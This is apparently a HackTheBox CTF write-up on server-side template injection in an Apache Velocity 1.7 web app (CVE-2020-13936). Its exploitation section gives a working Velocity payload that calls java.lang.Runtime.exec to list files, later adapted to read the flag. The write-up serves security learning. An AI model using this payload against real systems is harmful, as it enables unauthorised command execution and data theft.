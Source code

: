 # Day07 - labyrinth_linguist

- **Platform**: HackTheBox  
- **Category**: Web  
- **Difficulty**: Easy  
- **Date**: 2025-05-07  
- **Tools Used**: BurpSuite, CVE research, Decoder/Proxy/Repeater  

---

## Summary
The challenge involved a Java-based web application using Apache Velocity 1.7. By identifying the version in a leaked `pom.xml` file, I discovered it was vulnerable to SSTI (CVE-2020-13936). Using crafted payloads, I confirmed code execution and ultimately read the `flag.txt` file.

---

## Enumeration
- Accessed the web app and inspected requests through BurpSuite.  
- Examined available files and found `pom.xml`.  
- Confirmed Apache Velocity version 1.7, known to be vulnerable to SSTI (CVE-2020-13936).  
- Tested SSTI using:
  ```velocity
  (#set($a=1+1) $a)
  ```
  which returned `2`, confirming injection.  

---

## Exploitation
- Researched Velocity SSTI payloads to escalate to command execution.  
- Crafted a payload to run system commands:
  ```velocity
  #set($engine="string")
  #set($run=$engine.getClass().forName("java.lang.Runtime"))
  #set($runtime=$run.getRuntime())
  #set($proc=$runtime.exec("ls -al ../"))
  #set($null=$proc.waitFor())
  #set($istr=$proc.getInputStream())
  #set($chr=$engine.getClass().forName("java.lang.Character"))
  #set($output="")
  #set($string=$engine.getClass().forName("java.lang.String"))
  #foreach($i in [1..$istr.available()])
    #set($output=$output.concat($string.valueOf($chr.toChars($istr.read()))))
  #end
  $output
  ```
- URL-encoded payload before sending via BurpSuite to avoid breaking the request.  
- Verified ability to list files and then modified payload to read `./flag.txt`.  
- Successfully retrieved the flag.  

---

## Lessons Learned
- Inspecting project configuration files (e.g., `pom.xml`) quickly reveals versions and potential CVEs.  
- SSTI vulnerabilities in template engines can often escalate to full command execution.  
- Encoding payloads properly (URL encoding) is essential for successful delivery in web contexts.  
- Researching public CVE write-ups and payload repositories is a vital skill — knowing when to look is as important as knowing what to test.  
